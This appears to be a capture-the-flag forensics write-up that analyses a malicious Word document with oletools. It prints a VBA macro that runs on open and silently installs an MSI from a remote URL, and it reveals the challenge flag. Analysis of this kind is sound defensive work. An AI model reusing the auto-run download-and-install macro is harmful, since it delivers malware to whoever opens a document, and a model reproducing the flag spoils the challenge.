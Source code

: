 # DR. Mal

We were provided an archive file called `drmal.zip` which contained a Word Document called `Mal.doc`. Since this was Forensics challenge and the document was called `Mal.doc`, it was safe to assume that this was a malicious document.

To analyse this malicious document, I first ran `oleid` from [oletools](https://github.com/decalage2/oletools) to analyse the document.
```console
$ oleid Mal.doc
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: Mal.doc
WARNING  For now, VBA stomping cannot be detected for files in memory
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |Unknown file type   |info      |
--------------------+--------------------+----------+--------------------------
Container format    |Unknown Container   |info      |Container type
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                    |                    |          |macros. Suspicious
                    |                    |          |keywords were found. Use
                    |                    |          |olevba and mraptor for
                    |                    |          |more info.
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships
Relationships       |                    |          |such as remote templates,
                    |                    |          |remote OLE objects, etc
--------------------+--------------------+----------+--------------------------
```

As seen in the output above, this document contains VBA macros. As stated in the output, we can use utilize `olevba` to get more info about the VBA macro.

```console
$ olevba Mal.doc
olevba 0.60.1 on Python 3.11.5 - http://decalage.info/python/oletools
===============================================================================
FILE: Mal.doc
Type: MHTML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: None - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    On Error Resume Next
    iceCube = "WindowsInstaller.Installer"
    Dim eazyE As Object
    Set eazyE = CreateObject(iceCube)
    eazyE.UILevel = 2
    snoopDogg = "https://drmal.io.ept.gg/flagInstaller.msi"
    eazyE.InstallProduct snoopDogg
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|CreateObject        |May create an OLE object                     |
|IOC       |https://drmal.io.ept|URL                                          |
|          |.gg/flagInstaller.ms|                                             |
|          |i                   |                                             |
|IOC       |flagInstaller.msi   |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

From the output above, we are able to see the VBA macro. The macro of interrest is `MyMacro` as it creates a Windows Installer object to install `flagInstaller.msi` from `https://drmal.io.ept.gg/flagInstaller.msi`. 

Upon doing a GET request to the given URL we get the following output
```console
$ curl https://drmal.io.ept.gg/flagInstaller.msi
Invalid User-Agent
```

From the output it seems like we need to find a valid User-Agent in order to see the content. Since its the Windows Installer thats fetching the data, I decided to find the correct User Agent used by the Windows Installer.

By searching for `user agent for windows installer`, I found the following post: https://www.dropboxforum.com/t5/View-download-and-export/Configure-trusted-client-user-agents-Windows-Installer-user/td-p/582721

In this post, its mentioned that the User-Agent is `Windows Installer`. By using User Agent in our GET request, we are able to fetch the flag:

```console
$ curl -s https://drmal.io.ept.gg/flagInstaller.msi -H "User-Agent: Windows Installer"
EPT{mAlD0c_c0mIn_sTr4igHt_0utt4_jAEr3n}
```
